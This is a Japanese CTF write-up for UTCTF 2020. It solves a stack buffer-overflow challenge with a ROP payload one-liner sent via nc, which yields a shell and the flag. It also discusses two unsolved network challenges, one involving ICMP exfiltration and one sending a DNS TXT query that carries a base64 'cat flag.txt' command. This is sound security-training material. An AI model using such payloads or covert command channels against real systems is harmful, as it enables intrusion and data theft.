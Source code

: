 ```yaml
---
title: "UTCTF 2020 Writeup | フラxxグゲット"
date: 2020-03-09T22:00:00+09:00
lastmod: 2020-03-09T22:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF", "Reviewed"]
categories: ["CTF"]
author: ""
---
```

URL: [https://utctf.live/challenges](https://utctf.live/challenges)
<br /><br />
えと、簡単なのしか解いてないので、テキトーです。

<br /><br />

<img src="https://captureamerica.github.io/writeups/img/utctf_2020_Score1.png" alt="utctf_2020_Score1.png">


<br /><br />
## [Pwn]: bof
- - -
### Challenge
> nc binary.utctf.live 9002

Attachment:

- pwnable (ELF 64bit)


<br />
### Solution
Ghidraでソースを確認します。

```C
undefined8 main(void)
{
  char local_78 [112];
  
  puts("I really like strings! Please give me a good one!");
  gets(local_78);
  puts("Thanks for the string");
  return 1;
}

void get_flag(int param_1)
{
  char *local_18;
  undefined8 local_10;
  
  if (param_1 == -0x21524111) {
    local_18 = "/bin/sh";
    local_10 = 0;
    execve("/bin/sh",&local_18,(char **)0x0);
  }
  return;
}
```

<br>
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ checksec ./pwnable 
[*] '/home/captureamerica/CTF/UTCTF_2020/pwnable'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
</pre>

タイトル通りBuffer Overflowのチャレンジで、get_flagを正しい引数で呼べたら/bin/shが呼ばれる、というやつです。

あと、これは64bitです。

<br>
pop rdi ; retを使います。
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ ROPgadget --binary pwnable | grep ret | grep ": pop"
0x000000000040068c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400692 : pop r15 ; ret
0x0000000000400582 : pop rbp ; mov byte ptr [rip + 0x200abe], 1 ; ret
0x000000000040068b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400520 : pop rbp ; ret
0x000000000040028e : pop rbp ; retf 0x2d9e
0x0000000000400693 : pop rdi ; ret   <--- これ
0x0000000000400691 : pop rsi ; pop r15 ; ret
0x000000000040068d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
</pre>

<br>
get_flag()関数のアドレス
<pre>
gef➤  x get_flag
0x4005ea <get_flag>:	0xe5894855
</pre>

<br>
引数はよくある0xdeadbeefです。（0xffffffffを足しているんで、更に+1します）
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ python3
>>> hex(-0x21524111+0xffffffff)
'0xdeadbeee'
</pre>


<br>
以下でフラグゲット。
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ (python -c "print('a'*112+'a'*8+'\x93\x06\x40\x00\x00\x00\x00\x00'+'\xef\xbe\xad\xde\x00\x00\x00\x00'+'\xea\x05\x40\x00\x00\x00\x00\x00')" ; cat - ) | nc binary.utctf.live 9002
I really like strings! Please give me a good one!
Thanks for the string
id
uid=1000(stackoverflow) gid=1000(stackoverflow) groups=1000(stackoverflow)
ls
flag.txt
cat flag.txt
utflag{thanks_for_the_string_!!!!!!}
</pre>


<br />
Flag: `utflag{thanks_for_the_string_!!!!!!}`


<br /><br />
<br /><br />
さて、ここから下は、解きたかったけど解けなくて諦めたやつです。

## [Network]: Nittaku 3 Star Premium
- - -
### Challenge
> I found some weird data while monitoring my network, but I didn't catch it all. See if you can make sense of it.

Attachment:

- capture.pcap

<br />
### (Unsolved)
ICMP（ping）に大きなデータがついてます。だからチャレンジ名がNittaku 3 starなんですね。なかなかネーミングセンスがいいです。

4つに分かれているので、ひとつにまとめて、base64デコードするとgzファイルになって中にflag.pngが入ってます。

ただし、壊れたgzファイルになっちゃうので、フラグが部分的にしか取れませんでした。。。


<br /><br />
<br /><br />
(2020/03/09 - Writeup見ました。)

フラグの続きは実際にPingをして取ってこないといけなかったようですね。ふーん。




<br /><br />
<br /><br />
## [Network]: Do Not Stop
- - -
### Challenge
> One of my servers was compromised, but I can't figure it out. See if you can solve it for me!

Attachment:

- capture.pcap

<br />
### (Unsolved)
DNSがbas64エンコードされています。肝心なフラグの中身はpcapの中には含まれていないようです。

DNSサーバが35.188.185.68なので、そこに対して`cat flag.txt`をbase64エンコードしたものをクエリーするとフラグが取れると思ったんですが、DNSサーバに繋がらなくてダメでした。。。

Discordでも、サーバに繋がらないよ〜って言っている人が何人かいたんですけど、Adminの人はサーバ動いているよ、って言っているし。


<pre>
captureamerica@kali:~$ dig -t TXT Y2F0IGZsYWcudHh0Cg== @35.188.185.68

; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> -t TXT Y2F0IGZsYWcudHh0Cg== @35.188.185.68
;; global options: +cmd
;; connection timed out; no servers could be reached
</pre>


<br /><br />
<br /><br />
(2020/03/09 - Writeup見ました。)

なんか、クエリーを投げるDNSサーバは35.188.185.68じゃなかったみたいです。。。




<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

